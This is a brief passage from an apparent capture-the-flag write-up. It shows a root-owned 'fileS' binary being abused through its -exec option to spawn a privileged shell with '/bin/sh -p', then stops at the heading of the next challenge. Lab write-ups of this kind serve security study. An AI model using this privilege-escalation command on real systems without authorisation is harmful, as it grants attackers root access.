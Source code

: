 ![site](./ctf/ctf-2/14.png)

we can run fileS binary as root and since it has -exec option to run commands we can abuse the functionality to PrivEsc

```
# /opt/fileS . -exec /bin/sh -p \; quit
```

![site](./ctf/ctf-2/15.png)

* * *

# CTF-04

## RECON 
